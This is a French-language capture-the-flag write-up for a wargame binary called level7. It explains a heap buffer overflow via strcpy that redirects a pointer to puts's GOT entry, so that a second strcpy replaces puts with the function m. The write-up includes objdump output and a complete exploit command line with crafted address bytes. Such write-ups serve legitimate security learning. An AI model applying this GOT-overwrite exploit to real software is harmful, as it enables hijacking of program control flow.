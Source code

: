 Cette exécutable est composé d'une fonction main qui va allouer de 8 octets pour pouvoir stocker dans les 4 premiers octets un chiffre et dans les 4 octets restant un pointeur pointant à un autre malloc de taille 8 octets.

Avec le premier strcpy on va pouvoir overflow et modifier la valeur stockée par `ptr_to_buffer2`, pour qu'elle pointe autre chose que `buffer2` mais par exemple l'adresse de puts pour la remplacer via le deuxième strcpy par l'adresse de `m`. Et lorsque puts sera appele à la fin du main. Il n'appellera pas puts de la libc mais la fonction `m`.

![Ghidra Level 7, fonction main et m](./resources/ghidra_level7.png)

Donc en premier lieu, on recupère l'adresse de puts (0x08049928)
```
$ objdump -R ./level7
DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
08049904 R_386_GLOB_DAT    __gmon_start__
08049914 R_386_JUMP_SLOT   printf
08049918 R_386_JUMP_SLOT   fgets
0804991c R_386_JUMP_SLOT   time
08049920 R_386_JUMP_SLOT   strcpy
08049924 R_386_JUMP_SLOT   malloc
08049928 R_386_JUMP_SLOT   puts
0804992c R_386_JUMP_SLOT   __gmon_start__
08049930 R_386_JUMP_SLOT   __libc_start_main
08049934 R_386_JUMP_SLOT   fopen
```
Puis l'adresse de `m` (0x080484f4)
```
$ objdump -t ./level7
SYMBOL TABLE:
08048440 g     F .text	00000000              _start
080486d8 g     O .rodata	00000004              _fp_hw
08049960 g     O .bss	00000050              c
080484f4 g     F .text	0000002d              m
08049940 g       *ABS*	00000000              __bss_start
```
On va construire nos arguments:
 - Le premier qui va overflow et pointer vers l'adresse de puts.
 - Et le deuxième qui va modifier la valeur dans puts pour remplacer par `m`

```
$ ./level7 `python -c 'print "a"*20+"\x28\x99\x04\x08"'`  `python -c 'print "\xf4\x84\x04\x08"'`
```
